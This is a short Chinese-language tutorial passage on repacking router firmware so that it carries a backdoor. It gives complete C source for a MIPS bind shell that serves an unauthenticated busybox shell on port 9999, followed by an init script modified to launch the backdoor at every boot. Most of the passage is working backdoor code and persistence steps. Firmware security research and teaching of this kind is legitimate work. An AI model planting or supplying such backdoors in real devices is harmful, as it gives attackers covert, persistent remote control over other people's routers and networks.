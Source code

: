 对以下情况我们要重新打包固件：

+ 固件植入后门程序
+ 固件仿真修patch某些和固件交互的函数

### 后门植入

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define SERVER_PORT	9999
 /* CC-BY: Osanda Malith Jayathissa (@OsandaMalith)
  * Bind Shell using Fork for my TP-Link mr3020 router running busybox
  * Arch : MIPS
  * mips-linux-gnu-gcc mybindshell.c -o mybindshell -static -EB -march=24kc
  */
int main() {
	int serverfd, clientfd, server_pid, i = 0;
	char *banner = "[~] Welcome to @OsandaMalith's Bind Shell\n";
	char *args[] = { "/bin/busybox", "sh", (char *) 0 };
	struct sockaddr_in server, client;
	socklen_t len;
	
	server.sin_family = AF_INET;
	server.sin_port = htons(SERVER_PORT);
	server.sin_addr.s_addr = INADDR_ANY; 

	serverfd = socket(AF_INET, SOCK_STREAM, 0);
	bind(serverfd, (struct sockaddr *)&server, sizeof(server));
	listen(serverfd, 1);

    while (1) { 
    	len = sizeof(struct sockaddr);
    	clientfd = accept(serverfd, (struct sockaddr *)&client, &len);
        server_pid = fork(); 
        if (server_pid) { 
        	write(clientfd, banner,  strlen(banner));
	        for(; i <3 /*u*/; i++) dup2(clientfd, i);
	        execve("/bin/busybox", args, (char *) 0);
	        close(clientfd); 
    	} close(clientfd);
    } return 0;
}
```

交叉编译为对应架构的程序后放入文件系统中，还要改写初始化脚本让系统自启后门：

```bash
#!/bin/sh
for i in /etc/init.d/S??* ;do
        # Ignore dangling symlinks (if any).
        [ ! -f "$i" ] && continue
        # Run the script.
        echo "[$i]"
        $i
done
echo "[$0] done!"
/bin/bindshell &			#<======
/etc/init0.d/rcS
```

